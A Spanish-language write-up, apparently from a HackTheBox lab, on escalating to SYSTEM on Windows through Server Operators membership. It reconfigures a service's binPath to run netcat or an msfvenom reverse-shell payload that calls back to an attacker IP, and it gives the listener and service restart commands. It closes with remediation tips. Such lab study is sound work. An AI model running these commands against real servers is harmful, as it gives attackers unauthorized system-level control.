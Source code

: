 ```yaml
---
title: 'Escalada de Privilegios en Windows: Server Operators Group'
published: true
categories: [Windows]
tags: [Tips, AD]
---
```


### Server Operator Group

* * *

El grupo **Server Operators** es un grupo de usuarios especial que a menudo tiene acceso a potentes comandos y configuraciones en un sistema informático. Este grupo generalmente se usa para administrar un servidor o para solucionar problemas del sistema. Los operadores de servidores suelen ser responsables de monitorear el rendimiento del servidor, administrar la seguridad del sistema y brindar soporte técnico a los usuarios. También pueden supervisar la instalación de actualizaciones de software, la creación y el mantenimiento de cuentas de usuario y la realización de tareas de mantenimiento de rutina.

<img src="/assets/Tips/sog/netuser.png">

### Análisis Vulnerabilidad

* * *

Ser miembro de **Server Operators** no es una vulnerabilidad, pero el miembro de este grupo tiene privilegios especiales para realizar cambios en el dominio que podrían llevar a un atacante a escalar a privilegios del sistema. Enumeramos los servicios que se ejecutan en el servidor emitiendo el comando `services` en nuestra terminal donde podemos ver la lista de servicios que hay allí. Luego, anotamos el nombre del servicio `VMTools` y la ruta binaria del servicio para uso lateral.

<img src="/assets/Tips/sog/vmtools.png">

### Método de Explotación 1

* * *

Transferimos el binario `netcat.exe` al host comprometido y cambiamos la ruta binaria del servicio. La razón por la que cambiamos la ruta binaria es para recibir una conexión inversa como usuario del sistema desde los hosts comprometidos.

¿Cómo funciona?

Cuando iniciamos cualquier servicio, ejecutará el binario desde su ruta binaria, por lo que si reemplazamos el binario del servicio con netcat o el binario de shell inverso, nos dará un reverse shell como usuario del sistema porque el servicio se inicia como un sistema en el anfitrión comprometido. hay que tener en cuenta que debemos especificar la dirección IP del atacante y el número de puerto de escucha con el binario netcat.

Pasos para reproducir el PoC:

```bash
upload /home/yorch/Labs/Resources/nc64.exe
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.8 1234"
```

<img src="/assets/Tips/sog/ncupload.png">

Luego detendremos el servicio y lo iniciaremos de nuevo. Entonces, esta vez, cuando se inicie el servicio, ejecutará el binario que configuramos anteriormente. Configure un escucha de netcat en el sistema kali para recibir el shell del sistema antes de iniciar el servicio y los comandos de inicio y detención del servicio de los hosts comprometidos.

```bash
nc -nlvp 1234
sc.exe stop VMTools
sc.exe start VMTools
```

<img src="/assets/Tips/sog/sc.png">

Hemos recibido un reverse shell del host comprometido como `nt authority\system`. Para verificarlo, simplemente ejecute el comando **whoami**.

<img src="/assets/Tips/sog/ntauth.png">

### Método de Explotación 2

* * *

En este método, vamos a utilizar el binario de reverse shell de `Metasploit` en lugar de utilizar nc.exe. Vamos a crear un binario con `msfvenom` y guardarlo como `revShell.exe`. Desglosemos los comandos que usamos para crear el payload de la reverse shell con msfvenom. Aquí hemos seleccionado el tipo de payload que se basa en el sistema operativo del host de destino **windows/x64/shell_reverse_tcp**, luego lhost y lport que está escuchando al host (IP del atacante) y el puerto de escucha (4444) en nuestro caso, por último, emitimos tipo de archivo con el indicador -f que guardará nuestro payload en formato exe y lo guardará como revShell.exe.

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=10.10.14.8 lport=4444 -f exe -o revShell.exe
```

<img src="/assets/Tips/sog/msfvenom.png">

Una vez que creamos el binario, lo cargaremos en la máquina víctima. 

```bash
upload /home/yorch/Labs/HackTheBox/Return/content/revShell.exe
```

<img src="/assets/Tips/sog/uploadrev.png">

Luego haremos los mismos pasos que hicimos en el método uno. Aquí no necesitamos proporcionar la dirección IP de la máquina atacante ya que ya está en el binario revShell.exe. El concepto es el mismo, solo que hemos cambiado el binario aquí, por lo que no tenemos que especificar la IP de escucha y el número de puerto al configurar la ruta binaria del servicio. Para reproducir el POC, siga los siguientes comandos:

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\revShell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

Asegúrese de haber activado netcat en el puerto 4444 en la máquina atacante para recibir la reverse shell.

<img src="/assets/Tips/sog/scvenom.png">

Como hemos cambiado la ruta binaria del servicio a la ruta revShell.exe. Ahora, si llamamos a ese servicio, ejecutará revShell.exe en lugar de su propio binario, lo que enviará una conexión de regreso a la máquina atacante como **nt Authority\System**.

Aquí podemos ver que hemos recibido con éxito una reverse shell como usuario del sistema en netcat.

<img src="/assets/Tips/sog/ncvenom.png">

### Remediación

* * *

Existen múltiples factores y formas que pueden ayudar a fortalecer el sistema.

- **Restrinja el acceso a cuentas privilegiadas**: Todas las cuentas privilegiadas deben estar restringidas a unas pocas personas de confianza y deben monitorearse para detectar cualquier actividad sospechosa.

- **Use contraseñas seguras**: Se deben usar contraseñas seguras para todas las cuentas privilegiadas y se deben cambiar con regularidad.

- **Use autenticación de dos factores**: La autenticación de dos factores debe usarse para todas las cuentas privilegiadas para garantizar que solo las personas autorizadas puedan acceder a ellas.
- Monitoree las cuentas privilegiadas: todas las cuentas privilegiadas deben monitorearse en busca de cualquier actividad sospechosa, como intentos de acceso no autorizado o comandos sospechosos.

- **Implemente controles de acceso basados en roles**: El acceso a cuentas privilegiadas debe estar restringido solo a aquellas personas que lo necesiten, y su acceso debe limitarse solo a las funciones que necesitan realizar.

- **Auditoría periódica de las cuentas de los usuarios**: Se deben realizar auditorías periódicas de las cuentas de los usuarios para garantizar que solo las personas autorizadas tengan acceso a las cuentas privilegiadas.
Limite el acceso remoto: el acceso remoto a cuentas privilegiadas debe limitarse solo a aquellas personas que lo necesitan, y su acceso debe ser monitoreado.

- **Reforzar los sistemas**: Los sistemas deben reforzarse para reducir el riesgo de explotación, como la aplicación de parches con regularidad, el uso de software antivirus y la implementación de políticas de privilegios mínimos. 

Espero que hayan disfrutado y aprendido algo nuevo hoy. **¡Happy Hacking!**